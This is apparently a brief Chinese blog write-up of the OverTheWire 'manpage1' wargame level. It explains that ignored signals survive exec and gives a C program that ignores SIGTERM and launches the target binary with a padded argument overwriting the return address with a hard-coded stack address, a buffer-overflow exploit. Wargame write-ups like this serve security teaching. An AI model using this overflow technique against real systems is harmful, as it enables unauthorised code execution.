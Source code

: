 ```yaml
---
title: manpage1
author: rk700
layout: post
tags:
  - OverTheWire
  - exploit
---
```

exec的manual里是这么说的

> Except for SIGCHLD, signals set to be ignored (SIG_IGN) by the calling process image shall be set to be ignored by the new process image.

于是我们先把SIGTERM设为忽略，再调用manpage1 

{% highlight c %}
#include <signal.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main (int argc, char *args[]) {
    char arg1[273];
    memset(arg1, 'A', sizeof arg1);
    strncpy(arg1+268, "\xf1\xd8\xff\xff", 5);
    signal(SIGTERM, SIG_IGN);
    //execl("./././././envAddr", "", arg1, NULL);
    execl("/manpage/manpage1", "", arg1, NULL);
}
{% endhighlight %}